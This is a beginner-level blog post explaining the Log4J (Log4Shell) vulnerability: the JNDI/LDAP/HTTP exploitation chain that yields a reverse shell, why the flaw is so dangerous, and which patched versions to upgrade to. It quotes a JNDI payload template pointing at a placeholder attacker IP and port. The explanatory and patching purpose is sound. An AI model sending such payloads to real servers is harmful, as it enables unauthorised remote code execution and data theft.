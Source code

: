 ```yaml
---
layout: post
permalink: /ELI5/:title/
title:  "ELI5 - Log4J"
---
```


## What is Log4J?
Log4J is a popular Java logging library, it is a utility that is used by many Java applications/software for logging purposes. For example, if a Java application utilises Log4J, error messages or events such as '404' can be recorded in a log. For an online game like Minecraft, the game server utilises the Log4J library to log commands typed by users/players in the console. 

On December 10th 2021, a vulnerability in this Log4J library was discovered which allows for malicious actors to execute remote commands in servers (that are using Log4J).

## How does it work?
*To better understand how the exploit works, I recommend you try out this TryHackMe room called [Solar](https://tryhackme.com/room/solar). You can also read my Solar writeup [here](/blogs/thm-solar/)* to see exploitation steps.

Malicious actors will typically scan the internet (i.e., public IP addresses) and footprint for Java applications. If an application is found to be using Java, it is likely (but not always) that the Log4J library is also used and therefore the application is vulnerable.

*It might not be possible to detect if the Log4J utility is used, but an attacker can still try the malicious payload on any discovered Java applications to see if the payload works.*

The attacker will then host both an LDAP and HTTP Server. A malicious JNDI payload will then be sent using the vulnerable application. A malicious payload looks something like this `${jndi:ldap://[ATTACKER IP]:[LDAP Server Port Number]/Exploit}`. This causes the URL to be logged in one of Log4J's log files. However, this is where the vulnerability exists.

The URL is not only logged, but also evaluated. In other words, it is executed by the server running the Java application. The payload first initiates a connection to the attacker's LDAP Server on the specified port number, requesting for the `Exploit` class. The LDAP Server is also set up in a way such that it will redirect traffic to the HTTP Server. The HTTP Server will contain the exploit class. The exploit class is written in Java that could contain a simple code which returns a reverse shell connection to the attacker. It has to be written in Java so that the target server can understand the class and execute it remotely. 

In essense, when the malicious JNDI payload is executed, the command is logged and executed. This causes the remote server to initiate a connection to the attacker's LDAP Server to request for the specified exploit class. The connection is redirected to the HTTP Server where the exploit class is located. The exploit is then executed remotely by the vulnerable server and a reverse shell is obtained. 

I have also designed a simple diagram illustrating the connections made between the attacker and target server/application.
![](/screenshots/log4j/log4j-diagram.png)

## Why is Log4J so dangerous?
The reasons why this vulnerability is so dangerous can be simplified into these reasons:<br>
1) `It is a popular utility used by MANY Java applications - both open-source and commercial softwares.` 
There are billions of devices & systems running Java applications in the world. Additionally, many of these applications uses the popular Log4J library for their logging purposes. Do you see where I am going with this?

If many applications run Java, the possibility of these applications using Log4J is also high due to its popularity. Hence, the discovery of the Log4J vulnerability is such a big deal because it is extremely likely that public-facing Java applications are vulnerable. 

2) `Attackers can gain remote command execution.`
This vulnerability leads to a remote command execution on the vulnerable application. This means that any attacker can use the malicious payloads on the vulnerability application, leading to a command execution over the internet. 

Some vulnerabilities require attackers to obtain physical access to the vulnerable system to further exploit it. Some vulnerabilities require attackers to have privileged access. However, Log4J is an easy-to-exploit vulnerability that does not have these requirements. The vulnerability provides attackers with access directly to the server, without the need to obtain physical or privileged access. The attackers can then leverage on this access to perform other malicious actions such as stealing confidential data from these vulnerable servers.

Hence, the fact that this vulnerability is so easy to exploit (due to lesser requirements i.e., not needing physical access and not needed privileged access) and that the outcome of the exploitation is a remote command execution, makes it an extremely dangerous vulnerability.


## Patching
If you are using a commercial application, please refer to the respective vendor for patching. Otherwise, it is recommended to upgrade the utility to versions `Log4j 2.3.2 (for Java 6), 2.12.4 (for Java 7), or 2.17.1 (for Java 8 and later).`
The updated versions can be found [here](https://logging.apache.org/log4j/2.x/download.html).